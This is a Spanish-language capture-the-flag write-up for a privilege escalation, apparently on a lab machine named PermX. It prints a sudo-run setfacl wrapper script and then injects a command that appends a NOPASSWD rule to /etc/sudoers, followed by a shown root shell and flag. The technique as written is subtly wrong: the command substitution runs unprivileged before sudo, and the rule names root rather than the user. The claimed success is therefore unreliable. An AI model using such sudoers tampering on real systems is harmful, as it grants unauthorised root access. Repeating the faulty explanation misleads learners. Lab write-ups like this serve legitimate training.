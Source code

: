 Podemos ver el script para ver que es lo que hace. 

```shell
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash
if [ "$#" -ne 3 ]; then
/usr/bin/echo "Usage: $0 user perm file"
exit 1
fi
user="$1"
perm="$2"
target="$3"
if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
/usr/bin/echo "Access denied."
exit 1
fi
# Check if the path is a file
if [ ! -f "$target" ]; then
/usr/bin/echo "Target must be a file."
exit 1
fi
/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
Vemos que el script comprueba primero si el número de argumentos pasados es igual a 3; si no, muestra un mensaje y sale. Si se pasan los tres argumentos, el script comprueba si el archivo de destino se encuentra dentro del directorio `/home/mtz/` y no contiene ningún `«..»` en su ruta, lo que ayuda a evitar el cruce de directorios. Si el archivo de destino no supera esta comprobación, deniega el acceso. Por último, el script utiliza `setfacl` para modificar la Lista de Control de Acceso `ACL` del archivo, permitiendo que el usuario especificado tenga el permiso definido en el archivo de destino. Este comando se ejecuta con privilegios elevados debido al uso de `sudo`.

Para conseguir escalar hasta el usuario root, lo que haremos sera inyectar un comando malicioso. Por ejemplo: 

```shell
sudo /opt/acl.sh "$(echo 'root ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers)" rw /home/mtz/user.txt
```

Este comando intentará agregar una línea al archivo /etc/sudoers que permite al usuario root ejecutar cualquier comando sin contraseña.

Si el comando se ejecuta correctamente, deberías poder obtener acceso root ejecutando:

```shell
mtz@permx:~$ sudo /opt/acl.sh "$(echo 'root ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers)" rw /home/mtz/user.txt
mtz@permx:~$ sudo su
root@permx:/home/mtz#
```

En este punto ya podemos leer la flag dentro de /root/root.txt

```shell
root@permx:/home/mtz# cat /root/root.txt
25c68786f673b0b4ad34aaa082b1c1f1
root@permx:/home/mtz#
```